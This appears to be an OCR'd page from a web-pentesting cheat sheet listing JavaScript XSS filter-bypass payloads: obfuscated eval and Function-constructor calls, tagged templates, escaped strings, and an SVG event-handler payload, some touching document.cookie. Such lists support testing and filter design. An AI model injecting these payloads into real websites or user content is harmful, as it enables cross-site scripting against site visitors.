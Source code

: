 * [https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md)
* [https://portswigger.net/research/javascript-without-parentheses-using-dommatrix](https://portswigger.net/research/javascript-without-parentheses-using-dommatrix)

**Arbitrary function (alert) call**

````javascript
//Eval like functions
eval('ale'+'rt(1)')
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Function('ale'+'rt(10)')``;
[].constructor.constructor("alert(document.domain)")``
[]["constructor"]["constructor"]`$${alert()}```
import('data:text/javascript,alert(1)')

//General function executions
`` //Can be use as parenthesis
alert`document.cookie`
alert(document['cookie']) 
with(document)alert(cookie) 
(alert)(1)
(alert(1))in"."
a=alert,a(1)
[1].find(alert)
window['alert'](0)
parent['alert'](1)
self['alert'](2)
top['alert'](3)
this['alert'](4)
frames['alert'](5)
content['alert'](6)
[7].map(alert)
[8].find(alert)
[9].every(alert)
[10].filter(alert)
[11].findIndex(alert)
[12].forEach(alert);
top[/al/.source+/ert/.source](1)
top[8680439..toString(30)](1)
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
$='e'; x='ev'+'al'; x=this[x]; y='al'+$+'rt(1)'; y=x(y); x(y)
x='ev'+'al'; x=this[x]; y='ale'+'rt(1)'; x(x(y))
this[[]+('eva')+(/x/,new Array)+'l'](/xxx.xxx.xxx.xxx.xx/+alert(1),new Array)
globalThis[`al`+/ert/.source]`1`
this[`al`+/ert/.source]`1`
[alert][0].call(this,1)
window['a'+'l'+'e'+'r'+'t']()
window['a'+'l'+'e'+'r'+'t'].call(this,1)
top['a'+'l'+'e'+'r'+'t'].apply(this,[1])
(1,2,3,4,5,6,7,8,alert)(1)
x=alert,x(1)
[1].find(alert)
top["al"+"ert"](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
al\u0065rt`1`
top['al\145rt'](1)
top['al\x65rt'](1)
top[8680439..toString(30)](1)
<svg><animate onbegin=alert() attributeName=x></svg>
````